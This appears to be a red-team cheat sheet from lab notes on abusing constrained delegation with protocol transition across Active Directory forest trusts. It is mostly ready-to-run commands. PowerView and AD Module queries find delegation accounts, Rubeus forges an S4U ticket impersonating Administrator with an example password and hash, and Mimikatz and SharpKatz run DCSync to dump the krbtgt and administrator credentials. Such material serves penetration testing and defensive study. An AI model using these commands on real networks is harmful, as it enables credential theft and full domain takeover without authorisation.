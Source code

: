 # Cross Forest Attacks - Delegations

- [Cross Forest Attacks - Delegations](#cross-forest-attacks---delegations)
  - [Privilege Escalation - Constrained Delegation with Protocol Transition](#privilege-escalation---constrained-delegation-with-protocol-transition)

---

## Privilege Escalation - Constrained Delegation with Protocol Transition

The classic Constrained Delegation does not work across forest trusts, but we can abuse it once we have a beachhead/foothold across forest trust.

- PowerView

```
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

<br/>

We can request an alternate ticket using Rubeus:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:068A0A7194F8884732E4F5A7CB47E17C /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

<br/>

Abuse the TGS to LDAP:

- Mimikatz

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```

- SharpKatz.exe

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

<br/>

